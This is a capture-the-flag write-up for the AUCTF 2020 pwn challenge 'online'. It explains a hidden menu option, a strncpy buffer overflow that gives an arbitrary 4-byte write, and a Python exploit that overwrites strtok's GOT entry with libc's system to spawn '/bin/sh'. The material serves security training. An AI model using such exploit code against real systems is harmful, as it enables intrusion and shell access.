 
## online
### Description

  > Dear Student,
  >
  > Due to COVID-19 concerns our curriculum will be moving completely to online courses... I know we haven't even started our school year yet so this may come as a shock. But I promise it won't be too bad! You can login at challenges.auctf.com 30013.
  >
  > Best, Dean of Eon Pillars
  >
  > Note: ASLR is disabled for this challenge
  >
  > Author: nadrojisk


### Attachment

[online](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/AUCTF2020/pwn/online/online)

### Analysis

#### hidden function

 `class_hacker` is not in the list, but we can input `attend Hacker` to take this class 

```c
void class_hacker(void){
  char local_200c [8196];
  
  puts("\nWelcome!");
  fgets(local_200c,0x2000,stdin);
  printf("Got %s\n",local_200c);
  test(local_200c);
  return;
}
```

```c
void test(char *param_1){
  char local_814 [2048];
  undefined4 local_14;
  undefined4 *local_10;
  
  printf("0x%x\n",&stack0xfffffffc);
  strncpy(local_814,param_1,2056);
  *local_10 = local_14;
  printf("0x%x\n",local_14);
  return;
}
```

#### buffer overflow

bof in function `test`:

`strncpy(local_814,param_1,2056);`

!> `local_814` is only 2048 bytes

so, our input will **overwrite** to `local_14` and `local_10` after 2048 bytes of any char.

#### write memory

also in function `test`:  

```c
*local_10 = local_14;
```

4 bytes of **arbitrary** memory can be overwrite, and both `local_14` and `local_10` can be assigned by buffer overflow.

#### disasbled ASLR

ASLR is still disabled and the version libc is same as [House of Madness](http://note.taqini.space/#/ctf/AUCTF-2020/?id=house-of-madness), so we can know the address of any function in libc directly.

### Soultion

#### GOT overwrite attack

we can overwrite the GOT of `strtok` to `system` 

```python
libcbase = 0xf7e19000
system = libcbase+0x0003ad80
strtok_got = 0x5655904c

offset = 2048
payload = 'A'*offset
payload += p32(system)
payload += p32(strtok_got)

sla('\tName: ','TaQini')
sla('> [? for menu]: ','attend Hacker')
# debug('b *0x56556591')
sla('Welcome!\n',payload)
```

#### WHY strtok?

after `class_hacker` , we will back to the menu to input next **cmd string**

`strtok` called in `cmd_dispatch` shared the first args what we input in **cmd string**

so we can trigger `system("/bin/sh")` by input `"/bin/sh"` as **cmd string**

```python
# strtok(cmd) -> system(cmd)
sla('> [? for menu]: ','/bin/sh')
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/AUCTF2020/pwn/online) 

